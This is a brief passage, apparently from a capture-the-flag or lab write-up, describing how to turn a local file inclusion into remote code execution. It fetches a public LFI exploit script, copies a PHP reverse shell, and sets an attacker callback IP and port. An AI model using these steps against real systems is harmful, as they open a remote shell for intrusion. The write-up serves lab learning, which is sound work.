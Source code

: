 download payload and php-reverse-shell.php

```bash
pxc wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py

cp /usr/share/webshells/php/php-reverse-shell.php ./phpshell.php
```

modify the ip and port in phpshell.php.

```bash
$ip = '10.10.14.78';  // CHANGE THIS
$port = 9002;       // CHANGE THIS

```

copy the phpshell.php content to payload.

![image-20221014233140573](./images/image-20221014233140573.png)

change the lfi url.
